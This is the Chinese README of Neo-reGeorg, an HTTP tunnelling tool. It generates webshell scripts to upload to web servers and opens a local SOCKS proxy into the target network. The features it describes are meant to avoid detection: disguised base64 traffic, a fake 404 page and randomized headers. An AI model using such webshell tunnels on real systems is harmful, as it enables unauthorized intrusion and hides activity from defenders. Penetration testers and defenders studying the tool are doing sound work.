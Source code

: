 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 解决 reGeorg 现存在的问题，修复部分小BUG



## Features

* 传输内容经过变形base64加密，伪装成base64编码
* GET 请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 兼容python2 / python3



Version
----

1.3.0



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_server/tunnel.nosocket.php
       => neoreg_server/tunnel.js
       => neoreg_server/tunnel.php
       => neoreg_server/tunnel.ashx
       => neoreg_server/tunnel.aspx
       => neoreg_server/tunnel.tomcat.5.jsp
       => neoreg_server/tunnel.tomcat.5.jspx
       => neoreg_server/tunnel.jsp
       => neoreg_server/tunnel.jspx

```

* **Step 2.**
使用 neoreg.py 连接WEB服务器，在本地建立 socks 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting socks server [127.0.0.1:1080], tunnel at [http://k/tunnel.php]
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如NMap不支持socks代理，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. 支持生成的服务端，默认 GET 请求响应指定的页面内容 (如伪装的404页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ pytohn neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端WEB，需要设置代理才能访问
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需Authorization认证和定制的Header或Cookie
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      --read-buff Bytes     Remote read buffer.(default: 513)

# 连接服务端
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
                     [-x LINE] [--read-buff Bytes] [--read-interval MS]
                     [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller
    DEBUG MODE: -k (debug_all|debug_base64|debug_headers_key|debug_headers_values)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            proto://host[:port] Use proxy on given port
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 1024)
      --read-interval MS    Read data interval in milliseconds.(default: 100)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```



## TODO

 * 解决 tennel.js 无法持续 TCP 连接问题

 * HTTP body 隐写

 * 传输 Target 隐写

 * ~~混淆/免杀/压缩 server 端~~ 应模块化，独立工具实现

   


## License

GPL 3.0


## Change log

v1.1.0
    - 新增 jspx 的支持

v1.2.0
    - 新增 -k debug_all (or debug_base64|debug_headers_key|debug_headers_values) 时，关闭随机混淆，方便调试

v1.3.0
    - 修复 --cookie  JSESSIONID 冲突，负载均衡环境，服务端找不到 session 无法使用问题
